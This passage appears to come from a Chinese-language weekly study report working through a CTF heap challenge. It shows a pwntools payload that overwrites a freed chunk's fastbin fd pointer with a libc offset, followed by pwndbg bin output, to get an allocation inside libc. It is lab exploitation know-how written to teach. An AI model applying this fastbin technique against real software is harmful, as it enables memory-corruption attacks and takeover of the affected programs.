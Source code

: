 ![image-20220407121128106](2022.4.11周报.assets/image-20220407121128106.png)



然后修改chunk2的fd指针，修改地址为

```python
payload = p64(libc_base + 0x3C4AED)
fill(2,len(payload),payload)
```

然后fastbin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55885630f080 —▸ 0x7fcdd7742aed (_IO_wide_data_0+301) ◂— 0xcdd7403ea0000000
0x80: 0x0
unsortedbin
all: 0x55885630f0f0 —▸ 0x7fcdd7742b78 (main_arena+88) ◂— 0x55885630f0f0
smallbins
empty
largebins
empty
```



再次alloc两次，就能得到0x7fcdd7742aed的chunk6。
